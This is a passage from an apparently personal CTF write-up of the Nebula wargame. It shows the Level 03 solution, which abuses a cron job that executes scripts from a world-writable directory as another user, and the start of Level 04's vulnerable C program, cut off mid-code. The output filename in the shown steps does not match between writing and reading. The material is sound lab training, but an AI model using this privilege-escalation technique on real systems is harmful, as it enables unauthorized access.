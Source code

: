 You have successfully executed getflag on a target account
{{< / highlight >}}

## Level 03 ##

> Check the home directory of flag03 and take note of the files there.
> 
> There is a crontab that is called every couple of minutes. 

So first things first let's take a look at that crontab

{{< highlight console >}}
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
{{< / highlight >}}

Ok, so it will take a shell script in the `writeable.d` directory, execute it and then delete it. Luckily the directory is world read/write, allowing us to add out own script. As the crontab will run the script as the `flag03` user, we might as well just run the `getflag` from it. We'll capture some output to make sure it worked.

{{< highlight console >}}
level03@nebula:/home/flag03$ cat writeable.d/getit
/bin/getflag > /tmp/gotit
# wait for the script to run....
level03@nebula:/home/flag03$ cat /tmp/gotflag
You have successfully executed getflag on a target account
{{< / highlight >}}

## Level 04 ##

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :) 
{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
    printf("%s [file to read]\n", argv[0]);
    exit(EXIT_FAILURE);
  }

